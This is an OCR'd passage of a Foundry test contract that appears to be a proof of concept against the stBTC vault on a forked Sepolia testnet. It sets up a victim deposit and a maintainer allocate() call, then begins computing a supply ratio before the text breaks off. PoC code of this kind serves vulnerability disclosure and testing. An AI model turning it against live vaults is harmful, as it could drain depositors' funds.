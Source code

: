 interface IStBTC{ function mintDebt(uint256 shares, address receiver) external returns(uint); function totalSupply() external view returns(uint); function totalAssets() external view returns(uint); function deposit( uint256 assets, address receiver ) external returns(uint); function updateExitFeeBasisPoints( uint256 newExitFeeBasisPoints ) external; function owner() external view returns(address); }

interface IAllocater{ function allocate() external; function releaseDeposit() external; function depositBalance() external view returns(uint); }

contract AcreBoostTest is Test {

```
error DepositNotFound();

function setUp() public {
    vm.selectFork(
        vm.createFork(&quot;https://rpc.sepolia.org&quot;, 6593446)
    );
}

address stBTC &#x3D; 0x7e184179b1F95A9ca398E6a16127f06b81Cb37a3;
address tBTC &#x3D; 0x517f2982701695D4E52f1ECFBEf3ba31Df470161;
address dispatcher &#x3D; 0xd5EbDD6fF384a465D56562D3a489c8CCE1B92dd0;
address maintainer &#x3D; 0x5CD05b073Ed2d01991A46cd55dA5D10a63B1E2CA;
address owner &#x3D; 0x2d154A5c7cE9939274b89bbCe9f5B069E57b09A8;

address bob &#x3D; makeAddr(&quot;bob&quot;);

function testFuzzPoC(/*uint portion*/) public{
  // vm.assume(portion &lt; 100 &amp;&amp; portion &gt; 20);
  uint portion &#x3D; 95;

  // address ownerOf &#x3D; IStBTC(stBTC).owner();
  // vm.prank(ownerOf);
  // IStBTC(stBTC).updateExitFeeBasisPoints(0);
  
  /**
  Bystander user, BOB casually deposits his tBTC into stBTC vault
  */
  deal(tBTC, bob, 1000e18);
  vm.startPrank(bob);
  IERC20(tBTC).approve(stBTC, type(uint).max);
  IStBTC(stBTC).deposit(1000e18, bob);
  uint bobShares &#x3D; IERC20(stBTC).balanceOf(bob);
  vm.stopPrank();

  /**
  Maintainer calls allocate() to allocate tBTC into Mezo portal
  */
  vm.prank(maintainer);
  IAllocater(dispatcher).allocate();
  console.log(&quot;@&gt; Maintainer calls allocate()&quot;);
  console.log(&quot;--- --- ---&quot;);
  console.log(&quot;@&gt; tBTC in stBTC: %s&quot;, IERC20(tBTC).balanceOf(stBTC));
  console.log(&quot;@&gt; tBTC in disptacher: %s&quot;, IERC20(tBTC).balanceOf(dispatcher));
  console.log(&quot;@&gt; dispatcher depositBalance: %s&quot;, IAllocater(dispatcher).depositBalance());
  console.log(&quot;--- --- ---&quot;);

  uint initialTVL &#x3D; IAllocater(dispatcher).depositBalance();
  uint currentTotalSupply &#x3D; IStBTC(stBTC).totalSupply();
  uint currentTotalAsset &#x3D; IStBTC(stBTC).totalAssets();
  uint pps &#x3D; currentTotalAsset / currentTotalSupply;
  uint requiredSupply &#x3D; currentTotalSupply * portion / (100-portion);

```